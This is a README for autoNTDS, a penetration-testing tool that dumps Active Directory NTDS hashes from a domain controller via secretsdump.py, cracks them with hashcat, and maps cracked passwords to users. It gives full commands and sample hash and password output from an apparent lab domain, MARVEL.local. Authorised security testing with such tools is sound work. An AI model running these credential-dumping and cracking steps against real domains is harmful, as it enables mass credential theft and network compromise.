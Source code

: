 # autoNTDS
autoNTDS is a Python utility that facilitates the extraction of NTDS dumps, cracks the hashes using hashcat, and post-processes the results to match users with their cracked passwords. This tool is designed to streamline the process of handling NTDS hashes.

## Features
- **NTDS Dumping**: Automated execution of secretsdump.py for organized NTDS extraction, automatically removing unnecessary accounts, such as computer and guest accounts, and dumping them into relevant txt files. 
- **Automated Hash Cracking**: Leverage hashcat for cracking the extracted NTDS hashes.
- **Post-processing**: Match cracked passwords with their respective users.

## Installation
### Prerequisites
1. Ensure you have Python 3.x installed.
2. Ensure you have both secretsdump.py (from Impacket) and hashcat installed and available in your system's PATH.
3. Proper permissions to execute NTDS hash dumps against the target system.

### Steps
1. Clone this repository:
```
git clone https://github.com/hmaverickadams/autoNTDS.git
cd autoNTDS
```

## Usage
### Running the tool:
`python autoNTDS.py --help`

### Options:
```
usage: autoNTDS.py [-h] [--ntds] [--crack] [-d DOMAIN] [-u USER] [-p PASSWORD] [-ip IPADDRESS] [-w WORDLIST] [-r RULES] [-O]
                   [--passwords-to-users USERS_AND_HASHES CRACKED]

Execute secretsdump.py and hashcat with provided parameters.

options:
  -h, --help            show this help message and exit
  --ntds                Dump the NTDS
  --crack               Crack the hashes using hashcat
  -d DOMAIN, --domain DOMAIN
                        Domain name
  -u USER, --user USER  Username
  -p PASSWORD, --password PASSWORD
                        Password
  -ip IPADDRESS, --ipaddress IPADDRESS
                        IP address
  -w WORDLIST, --wordlist WORDLIST
                        Wordlist for hashcat
  -r RULES, --rules RULES
                        Hashcat rules
  -O, --optimized       Run Hashcat in optimized mode
  --passwords-to-users USERS_AND_HASHES CRACKED
                        Match users with their cracked passwords. Use this option if you cracked the hashes elsewhere.

Usage examples:
  autoNTDS.py --ntds -d domain -u username -p password -ip 192.168.1.1
  autoNTDS.py --ntds --crack -d domain -u username -p password -ip 192.168.1.1 -w wordlist.txt
  autoNTDS.py --passwords-to-users users_and_hashes.txt cracked.txt
```

### Basic Usage - Dumping the NTDS:
`python autoNTDS.py --ntds -d MARVEL.local -u hawkeye -p Password2@ -ip 192.168.138.136`

The above will dump the NTDS of the MARVEL.local DC and create two files:

- MARVEL.local-users-and-hashes.txt
- MARVEL.local-nt-hashes.txt

Here is an example output of those files.

**MARVEL.local-users-and-hashes.txt**

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:920ae267e048417fcfe00f49ecbd4b33:::
MARVEL.local\tstark:1103:aad3b435b51404eeaad3b435b51404ee:d03b572b319e335ecd3e793412a28524:::
MARVEL.local\SQLService:1104:aad3b435b51404eeaad3b435b51404ee:f4ab68f27303bcb4024650d8fc5f973a:::
MARVEL.local\fcastle:1105:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
MARVEL.local\pparker:1106:aad3b435b51404eeaad3b435b51404ee:c39f2beb3d2ec06a62cb887fb391dee0:::
hawkeye:1114:aad3b435b51404eeaad3b435b51404ee:7a829d816a477655abe98a8c7de84c99:::
```

**MARVEL.local-nt-hashes.txt**

```
920ae267e048417fcfe00f49ecbd4b33
d03b572b319e335ecd3e793412a28524
f4ab68f27303bcb4024650d8fc5f973a
64f12cddaa88057e06a81b54e73b949b
c39f2beb3d2ec06a62cb887fb391dee0
7a829d816a477655abe98a8c7de84c99
```

### Basic Usage - Automated Cracking:
`python autoNTDS.py --ntds -d MARVEL.local -u hawkeye -p Password2@ -ip 192.168.138.136 --crack -w /usr/share/wordlists/rockyou.txt`

The above will dump the NTDS of the MARVEL.local DC, create two files mentioned previously, and attempt to automatically crack the dumped NTDS with the supplied wordlist.

If cracked hashes are found, they are automatically tied back to their user account in a text file.  For example, here is the output of the **MARVEL.local-cracked-users.txt** file:

```
Administrator:P@$$w0rd!
MARVEL.local\SQLService:MYpassword123#
MARVEL.local\fcastle:Password1
MARVEL.local\pparker:Password2
hawkeye:Password2@
```

You can also use rulesets and optimize Hashcat, for example:

`python autoNTDS.py --ntds -d MARVEL.local -u hawkeye -p Password1@ -ip 192.168.138.136 --crack -w /usr/share/wordlists/rockyou.txt -r OneRuleToRuleThemAll.rule -O`

The above will dump the NTDS of the MARVEL.local DC and attempt to crack the relevant hashes using the provided rockyou.txt wordlist and the OneRule ruleset while optimizing Hashcat.

### Basic Usage - Matching Users with their Cracked Passwords:
If you choose to run password cracking elsewhere, you can still easily match the passwords back to the user.

`python autoNTDS.py --passwords-to-users MARVEL.local-users-and-hashes.txt cracked.txt`

Where **MARVEL.local-users-and-hashes.txt** looks as such:

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:920ae267e048417fcfe00f49ecbd4b33:::
MARVEL.local\tstark:1103:aad3b435b51404eeaad3b435b51404ee:d03b572b319e335ecd3e793412a28524:::
MARVEL.local\SQLService:1104:aad3b435b51404eeaad3b435b51404ee:f4ab68f27303bcb4024650d8fc5f973a:::
MARVEL.local\fcastle:1105:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
MARVEL.local\pparker:1106:aad3b435b51404eeaad3b435b51404ee:c39f2beb3d2ec06a62cb887fb391dee0:::
hawkeye:1114:aad3b435b51404eeaad3b435b51404ee:7a829d816a477655abe98a8c7de84c99:::
```

Where **cracked.txt** looks as such:

```
920ae267e048417fcfe00f49ecbd4b33:P@$$w0rd!
f4ab68f27303bcb4024650d8fc5f973a:MYpassword123#
64f12cddaa88057e06a81b54e73b949b:Password1
c39f2beb3d2ec06a62cb887fb391dee0:Password2
7a829d816a477655abe98a8c7de84c99:Password2@
```

The final output will result in **cracked-users.txt**, which will look like this:

```
Administrator:P@$$w0rd!
MARVEL.local\SQLService:MYpassword123#
MARVEL.local\fcastle:Password1
MARVEL.local\pparker:Password2
hawkeye:Password2@
```

## Contributions
Contributions are always welcome! Please open an issue or submit a pull request.

## Copyright
autoNTDS by Heath Adams Copyright (C) 2023 TCM Security, Inc.

This program is free software: you can redistribute it and/or modify it under the terms of the GNU General Public License as published by the Free Software Foundation, either version 3 of the License, or (at your option) any later version.

This program is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the GNU General Public License for more details.

You should have received a copy of the GNU General Public License along with this program. If not, see http://www.gnu.org/licenses/
 
